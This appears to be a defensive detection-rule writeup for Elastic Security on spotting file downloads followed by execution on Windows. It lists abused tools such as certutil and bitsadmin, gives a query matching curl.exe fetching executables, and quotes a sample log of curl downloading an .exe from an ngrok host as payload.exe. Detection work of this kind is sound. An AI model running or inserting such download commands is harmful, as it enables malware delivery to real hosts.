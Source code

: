 # Suspicious File Download & Execution

##  Scenario Description

  An attacker or malicious script downloads a file from the internet (often via PowerShell, curl, or certutil) and then executes it on a Windows host. This technique is widely used in malware delivery, phishing payloads, and initial access operations.

**Common tools/methods:**
- `Invoke-WebRequest` or `Invoke-Expression` in PowerShell
- `certutil.exe` used to fetch remote files
- `bitsadmin.exe` or `curl.exe` for stealthy transfers
- Execution of the downloaded payload (e.g., EXE, DLL, or script)
## Objective
  Detect suspicious file downloads from remote sources followed by execution of the downloaded file. The goal is to identify early-stage malware delivery and initial execution, helping to stop attacks in the initial phases of the kill chain.

## Detection Logic / Query

```sh
process.name: "curl.exe" and 
file.extension: ("exe" or "dll" or "ps1" or "bat" or "vbs" or "zip")
```

## Sample Alert Screenshot

![suspicious file download](../../screenshots/suspicious.png)

## Logs or Sample Event
```powershell
"May 31, 2025 @ 14:11:25.639","curl  https://8f23-2401-4900-4deb-7fc2-3703-39b4-73d6-579b.ngrok-free.app/NORTHERN_POSSIBILITY.exe -o payload.exe","curl.exe","-"
```
## Detection Status

-  Tested in Elastic Security 8.x
-  Triggered with real-world download & run simulation
-  Needs tuning for false positives in enterprise environment
